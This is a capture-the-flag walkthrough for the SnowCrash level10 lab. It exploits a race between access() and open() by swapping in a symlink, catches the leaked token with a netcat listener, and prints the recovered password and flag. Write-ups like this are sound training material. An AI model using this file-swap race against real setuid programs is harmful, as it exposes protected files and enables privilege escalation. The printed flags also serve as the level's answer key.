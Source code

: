 ```
level10@SnowCrash:~$ ls
level10  token

level10@SnowCrash:~$ ./level10 
./level10 file host
        sends file to host if you have access to it

level10@SnowCrash:~$ strings ./level10
...
open
access
...
Connecting to %s:6969 .. 
...
```

The strings command shows that the executable connects to the port 6969.  
It also shows that the executable uses the functions open and access which creates a race condition that can be exploited.  

```
level10@SnowCrash:~$ man 2 access
Warning:  Using  access()  to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.  For this reason, the use  of this  system  call  should be avoided.  (In the example just described, a safer alternative would be to temporarily switch the process's effective user ID to the real ID and then call open(2).)
```

During the small time between these 2 calls, we can modify the targeted file to the desired file that we want to access with a symlink.

First of all, let's use netcat to listen to the port 6969.

```
level10@SnowCrash:~$ nc -lk 6969
```

In an other window, we launch the script symlink.sh that, in an infinite loop, will create a file to be accessed by the executable then promptly deleted to be replaced by a symlink of the file token just before the program opens the file.

```
scp -P 4242 symlink.sh level10@XX.XX.XXX.XX:/tmp

level10@SnowCrash:~$ sh /tmp/symlink.sh

```

In a final window, we launch the script password.sh that, also in an infinite loop, will execute ./level10 with the file /tmp/link, created in the previous script, which at certain times will be the symlink of the file token.

```
scp -P 4242 password.sh level10@XX.XX.XXX.XX:/tmp

level10@SnowCrash:~$ sh /tmp/password.sh
...
You don't have access to /tmp/link
You don't have access to /tmp/link
You don't have access to /tmp/link
You don't have access to /tmp/link
Connecting to 127.0.0.1:6969 .. Connected!
Sending file .. wrote file!
You don't have access to /tmp/link
You don't have access to /tmp/link
You don't have access to /tmp/link
You don't have access to /tmp/link
Connecting to 127.0.0.1:6969 .. Connected!
Sending file .. Damn. Unable to open file
You don't have access to /tmp/link
You don't have access to /tmp/link
You don't have access to /tmp/link
You don't have access to /tmp/link
...
```

Now, if we look back at the first window:

```
...
.*( )*.
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
.*( )*.
...
^C

level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !

flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```